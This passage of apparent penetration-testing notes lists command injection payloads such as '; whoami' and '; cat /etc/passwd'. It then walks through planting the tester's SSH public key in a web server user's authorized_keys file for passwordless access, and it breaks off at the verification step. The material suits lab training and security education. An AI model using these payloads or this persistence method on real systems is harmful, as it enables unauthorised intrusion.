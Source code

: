     ```
    ; whoami
    ; cat /etc/passwd
    ; ls -latr & netstat -rn
    || ifconfig

     ```

4. After enumeration, perform commands such as uploading your ssh key to gain access

#### SSH Key Upload ####

Through either malicious upload or command injection, we can potentially upload our ssh key onto the target system. By uploading our key to the target, we can give ourselves access without needing a password.

##### SSH Key Setup #####

1. Run the ssh key gen command on ops-station. When prompted for location to save just press enter to leave default, you can press enter for password as well

`ssh-keygen -t rsa`

2. After generating ssh key look for public key in your .ssh folder. Your public key will have .pub as the extension

`cat ~/.ssh/id_rsa.pub`

    The entire output is your public key, make sure when uploading you copy everything

##### Uploading SSH Key #####

On the target website we need to do some tasks in order to upload our ssh properly. These commands can be ran from a place where command injection is possible or if you uploaded some malicious php they can be done from there

    The following process is done on target through command injection or malicious upload.

1. Find out what account is running the web sever/commands.

`whoami`

2. Once the user is known find this users home folder by looking in /etc/passwd. We also want to make sure the user has a login shell. For the demo we looked for www-data in passwd because they were the resluting user from the previous whoami command.

`www-data:x:33:33:www-data:/var/www:/bin/bash`    #/var/www is the home folder for this user and /bin/bash is login shell.

3. Check to see if `.ssh` folder is in the users home directory. If not make it

`ls -la /users/home/directory` #check if .ssh exists

`mkdir /users/home/directory/.ssh` #make .ssh in users home folder if it does not exist

4. Echo ssh key to the authorized_keys file in the users .ssh folder.

`echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys`

5. Verify key has been uploaded successfully.

